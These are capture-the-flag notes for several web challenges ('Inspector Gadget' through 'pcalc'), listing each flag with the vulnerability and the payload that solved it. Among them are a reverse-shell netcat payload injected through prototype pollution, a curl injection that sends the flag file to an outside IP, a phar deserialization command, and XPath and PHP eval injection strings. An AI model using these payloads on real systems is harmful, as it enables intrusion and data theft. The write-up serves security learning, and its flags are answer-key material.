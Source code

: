 
# Web

### Inspector Gadget: CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}
- HTML, CSS, and JS source contain pieces of flag

### DaaS: CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
- https://infosecwriteups.com/rce-on-a-laravel-private-program-2fb16cfb9f5c
- python exploit.py http://188.166.172.13:32573/ /tmp/exploit.phar
- php -d'phar.readonly=0' ./phpggc/phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system {CMD}

### BlitzProp: CHTB{p0llute_with_styl3}
- AST injection in pug and flatten node modules
- https://blog.p6.is/AST-Injection/
- {"song.name":"ASTa la vista baby", "__proto__.block": {"type": "Text",  "line": "process.mainModule.require('child_process').execSync(`nc 104.238.133.245 8008 -e /bin/sh`)"}}

### MiniSTRyplace: CHTB{b4d_4li3n_pr0gr4m1ng} 
- local file inclusion using directory traversal bypass
- replaces "../" with "" in "lang" parameter, can use "....//" to bypass filter

### CaaS: CHTB{f1le_r3trieval_4s_a_s3rv1ce}
- curl command vulnerable to injection that can send along flag located at "../../flag"
- curl -X POST http://138.68.139.183:30486/api/curl -d 'ip=-F "content=@../../flag" 104.238.133.245:8000'

### E.Tree: CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
- XPath injection vulnerability, web app uses lxml python module to parse XML tree
- server errors from bad queries give debug info on what the backend is doing
- use XPath queries to search for fields within the file using *starts-with* and wildcard functionality
- payload -> {"search": "'] | (/military/district[@id])[2]/staff/selfDestructCode[starts-with(text(), 'CHTB{')] | name['"}
- https://www.guru99.com/xpath-selenium.html
- https://stackoverflow.com/questions/3737906/xpath-how-to-check-if-an-attribute-exists

### Cessation: CHTB{c3ss4t10n_n33d_sync1ng_#@$?}
- web application runs Apache Traffic Server v7.1.1 as a reverse proxy for nginx v14.0.1
- ATS uses remap.config to match incoming URLs and forward them along to the backend
- regex is used to match against incoming URLs before forwarding
- need to get to "/shutdown" endpoint which is remapped to "/403" by ATS remap.config
- requesting "//shutdown" (with burp, curl, or nc; doesn't work in browser as it removes it) allows bypass
- https://digi.ninja/blog/lighttpd_rewrite_bypass.php

### pcalc: CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}
- provided with source code for web app that takes input and runs it through PHP's eval function
- first runs a check with regex to blacklist any input that contains letters, single quotes, or double quotes
- have to use PHP's xor functionality and string coercion to rebuild commands to get flag name and then read it
- would be easier if quotes weren't blacklisted, have to use heredoc syntax instead
- python script finds two words with valid characters that xor to the desired word, then builds into command and URL encodes
- reconstructing environment locally was a big help
- %28%3C%3C%3C_0%0A8%238%23%0A_0%0A%5E%3C%3C%3C_0%0A%5D%5B%5D%40%0A_0%0A%29%28%3C%3C%3C_0%0A%23%21%09%09%09%26%2C%218%09%0A_0%0A%5E%3C%3C%3C_0%0A%40%40%7D%29%26%40%40%40_%23%0A_0%0A%29